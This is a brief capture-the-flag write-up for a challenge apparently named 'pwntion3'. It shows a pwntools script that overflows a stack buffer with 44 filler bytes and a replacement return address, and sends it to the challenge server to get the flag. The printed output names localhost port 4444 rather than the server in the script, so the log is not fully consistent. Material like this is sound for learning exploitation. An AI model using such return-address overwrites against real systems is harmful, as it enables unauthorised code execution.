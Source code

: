 When using the solve script, we have to add the option of sending the input
to the remote server. In the first part of the script, I've added an if 
statement, so that we may set the variable **debug** to either True or False.
It is set to False now, so that we know we send the input to the remote server.

```python
from pwn import *

debug = False
if debug == True:
	r = process("./pwntion3")
else:
	r = remote("pwntion3.tghack.no", 1063)

r.recvuntil("Student:")

new_return_address = p32(0x080486e6) #0x080486e6

r.sendline("A" * 44 + new_return_address)

r.interactive()
```

```
$ python solve.py
[+] Opening connection to localhost on port 4444: Done
[*] Switching to interactive mode
 TG19{Awesome! You are now better at pwning than many CTFers!! Congratulations}
[*] Got EOF while reading in interactive
$  
```

Tadaa!!
